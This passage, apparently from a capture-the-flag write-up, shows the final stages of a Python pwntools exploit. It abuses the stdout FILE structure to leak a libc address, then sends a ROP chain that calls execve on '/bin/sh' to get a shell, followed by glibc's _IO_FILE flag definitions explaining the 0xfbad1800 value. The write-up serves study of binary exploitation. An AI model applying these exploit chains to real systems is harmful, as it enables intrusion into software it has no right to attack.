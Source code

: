 ```python
io.send(p64(fakevtable))
sleep(0.1)
io.send(p64(abovestdout-0x8) + p64(exit))
sleep(0.1)
io.send(b'\x40')
sleep(0.1)

#Stage 4. Set low byte of write base in stdout to 0x0, change stdout pointer to point at flag offset
io.send(poprdi + p64(0x0) + read + read_where(0x601020) + read_where(fullcontrol) + leave)
sleep(0.1)
io.send(b'\x00')
sleep(0.1)
io.send(b'\x20')
sleep(0.1)

#Stage 5, write flag to stdout pointer, then return to exit.
io.send(poprdi + p64(0x0) + read + poprbp + p64(0x601300) + leave)
sleep(0.1)
io.send(p64(0xfbad1800))
sleep(0.1)

#Stage 6 receive our leak then proceed to get shell.
leak = io.recv()[:8]
libcbase = u64(leak) - 0x18e997

poprax = p64(libcbase + 0x33544)
poprdx = p64(libcbase + 0x1b92)
binsh = p64(libcbase + 0x18cd57)
syscall = p64(libcbase + 0xbc375)
io.send(padding + b"AAAABBBB" + poprax + p64(59) + poprdx + p64(0) + poprdi + binsh + poprsi + p64(0) + syscall)

io.interactive()
```

Running this exploit now gives us shell! :D
![shell](images/shell.png)

# The flags
As mentioned earlier we set the flags to 0xfbad1800, but why exactly these flags? Let's take a look at the flags definition for open file pointers:
```C
/* Magic numbers and bits for the _flags field.
   The magic numbers use the high-order bits of _flags;
   the remaining bits are available for variable flags.
   Note: The magic numbers must all be negative if stdio
   emulation is desired. */

#define _IO_MAGIC 0xFBAD0000 /* Magic number */
#define _OLD_STDIO_MAGIC 0xFABC0000 /* Emulate old stdio. */
#define _IO_MAGIC_MASK 0xFFFF0000
#define _IO_USER_BUF 1 /* User owns buffer; don't delete it on close. */
#define _IO_UNBUFFERED 2
#define _IO_NO_READS 4 /* Reading not allowed */
#define _IO_NO_WRITES 8 /* Writing not allowd */
```